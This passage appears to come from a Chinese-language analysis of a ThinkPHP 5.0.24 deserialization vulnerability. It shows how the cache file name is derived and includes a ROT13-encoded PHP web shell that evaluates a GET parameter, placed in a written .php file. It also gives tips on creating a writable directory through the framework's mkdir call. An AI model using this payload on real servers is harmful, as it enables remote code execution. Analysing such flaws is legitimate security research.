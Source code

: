 生成文件名规则：

    md5('tag_'.md5($this->tag))
    即:
    md5('tag_c4ca4238a0b923820dcc509a6f75849b')
    =>3b58a9545013e88c7186db11bb158c44
    =>
    <?cuc cucvasb();riny($_TRG[pzq]);?> + 3b58a9545013e88c7186db11bb158c44
    最终文件名：
    <?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php

在漏洞利用时需注意目录读写权限，可先控制options\['path'\] =
'./demo/'，利用框架创建一个755文件夹（前提是具有权限）

我们可以稍微修改下 **payload** 用于创建一个 **0755**
权限的目录（这里利用的是 **think\\cache\\driver\\File:getCacheKey()**
中的 **mkdir** 函数），然后再往这个目录写文件。

![](resource/Thinkphp5.0.24反序列化漏洞/media/rId27.gif)
